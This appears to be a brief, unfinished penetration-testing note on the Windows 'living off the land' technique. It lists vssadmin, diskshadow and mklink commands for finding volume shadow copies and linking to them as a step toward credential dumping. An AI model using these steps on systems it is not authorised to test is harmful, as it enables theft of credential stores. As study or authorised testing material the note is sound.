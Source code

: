 # Living off the Land

TODO: Provide steps to perform domain privilege escalation

## 01 - Enumerate

Check if there are any shadow volumes that can be re-extracted.

```
C:\> vssadmin list shadows
```

## 02 - Exploit

```
C:\> diskshadow list shadows all
```

Make a symlink to the shadow copy and access it

```
C:\> mklink.exe /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Living off the Land#^c70a55|DiskShadow Method: Volume Shadow Copy]]

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)